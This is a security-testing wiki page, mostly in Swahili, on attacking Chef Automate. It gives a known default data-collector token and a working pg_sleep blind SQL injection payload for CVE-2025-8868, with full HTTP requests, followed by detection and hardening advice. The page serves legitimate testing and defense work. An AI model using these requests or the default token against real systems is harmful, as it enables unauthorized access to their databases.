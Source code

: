 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Overview

Ukurasa huu unakusanya mbinu za vitendo za ku-enumerate na kushambulia instances za Chef Automate, kwa msisitizo kwenye:
- Discovering gRPC-Gateway-backed REST endpoints and inferring request schemas via validation/error responses
- Abusing the x-data-collector-token authentication header when defaults are present
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) affecting the filters[].type field in /api/v0/compliance/profiles/search

> Kumbuka: Majibu ya backend ambayo yanajumuisha header grpc-metadata-content-type: application/grpc kwa kawaida yanaonyesha gRPC-Gateway inayounganisha simu za REST kwenda services za gRPC.

## Recon: Architecture and Fingerprints

- Front-end: Often Angular. Static bundles can hint at REST paths (e.g., /api/v0/...)
- API transport: REST to gRPC via gRPC-Gateway
- Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Error bodies starting with pq: strongly suggest PostgreSQL with the Go pq driver
- Interesting Compliance endpoints (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate exposes a data collector that authenticates requests via a dedicated header:

- Header: x-data-collector-token
- Risk: Some environments may retain a default token granting access to protected API routes. Known default observed in the wild:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Ikiwa ipo, token hii inaweza kutumika kupiga endpoints za Compliance API ambazo vinginevyo zinahitaji auth. Daima jaribu ku-rotate/disable defaults wakati wa hardening.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints often leak useful validation errors that describe the expected request model.

For /api/v0/compliance/profiles/search, the backend expects a body with a filters array, where each element is an object with:

- type: string (filter field identifier)
- values: array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
JSON isiyo sahihi au aina za fields zisizofaa kawaida husababisha majibu ya 4xx/5xx yenye vidokezo, na headers zinaonyesha tabia ya gRPC-Gateway. Tumia haya kupanga fields na kutambua injection surfaces.

## API ya Compliance SQL Injection (CVE-2025-8868)

- Endpoint iliyoathirika: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Aina ya udhaifu: time-based blind SQL injection in PostgreSQL
- Sababu ya msingi: Ukosefu wa parameterization/whitelisting sahihi wakati wa kuingiza field ya type ndani ya fragment ya dynamic SQL (labda kutumika kujenga identifiers/WHERE clauses). Maadili yaliyoundwa katika type yanatekelezwa na PostgreSQL.

Working time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Vidokezo vya mbinu:
- Funga string ya asili kwa alama ya nukta moja (')
- Unganisha subquery ambayo inaita pg_sleep(N)
- Rudi kwenye muktadha wa string kwa kutumia || ili SQL ya mwisho ibaki kuwa syntactically valid bila kujali wapi type imewekwa

### Uthibitisho kupitia utofauti wa latency

Tuma paired requests na linganisha response times ili kuthibitisha server-side execution:

- N = 1 sekunde
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 sekunde
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Muda wa majibu huongezeka kwa pg_sleep(N)
- Majibu ya HTTP 500 yanaweza kujumuisha maelezo ya pq: wakati wa kupima, yakithibitisha njia za utekelezaji wa SQL

> Vidokezo: Tumia validator wa muda (mfano, majaribio mengi kwa kulinganisha kwa takwimu) ili kupunguza kelele na matokeo chanya za uwongo.

### Athari

Watumiaji walioidhinishwa—au wahusika wasioidhinishwa wakitumia x-data-collector-token ya default—wanaweza kutekeleza SQL yoyote ndani ya muktadha wa PostgreSQL wa Chef Automate, wakihatarisha usiri na uadilifu wa compliance profiles, usanidi, na telemetry.

### Toleo zilizoathirika / Rekebisho

- CVE: CVE-2025-8868
- Mwongozo wa kusasisha: Chef Automate 4.13.295 au baadaye (Linux x86) kulingana na taarifa za muuzaji

## Utambuzi na Forensiki

- API layer:
- Monitor 500s on /api/v0/compliance/profiles/search where filters[].type contains quotes ('), concatenation (||), or function references like pg_sleep
- Inspect response headers for grpc-metadata-content-type to identify gRPC-Gateway flows
- Database layer (PostgreSQL):
- Audit for pg_sleep calls and malformed identifier errors (often surfaced with pq: prefixes coming from the Go pq driver)
- Authentication:
- Rekodi na toa tahadhari kuhusu matumizi ya x-data-collector-token, hasa thamani za default zinazojulikana, katika njia za API

## Kupunguza Hatari na Kuimarisha

- Mara ya haraka:
- Zungusha/zimia token za default za data collector
- Zuia ingress kwa endpoints za data collector; lazima token zenye nguvu na za kipekee
- Kiwango cha msimbo:
- Parameterize queries; kamwe usichanganye sehemu za SQL kwa string-concatenation
- Weka whitelist kali ya thamani za type zinazoruhusiwa kwenye server (enum)
- Epuka kujenga SQL kwa njia ya dynamic kwa identifiers/clauses; ikiwa tabia ya dynamic inahitajika, tumia kunukuu salama kwa identifier na whitelists wazi

## Orodha ya Ukaguzi ya Kupima Kivitendo

- Angalia kama x-data-collector-token inakubaliwa na kama default inayojulikana inafanya kazi
- Panga ramani ya schema ya Compliance API kwa kusababisha makosa ya uthibitishaji na kusoma ujumbe wa kosa/headers
- Jaribu kwa SQLi kwenye fields zisizo wazi “identifier-like” (mfano, filters[].type), siyo tu arrays za values au fields za maandishi ya ngazi ya juu
- Tumia mbinu za muda (time-based) kwa concatenation ili SQL ibaki sarufi sahihi katika muktadha tofauti

## Marejeo

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
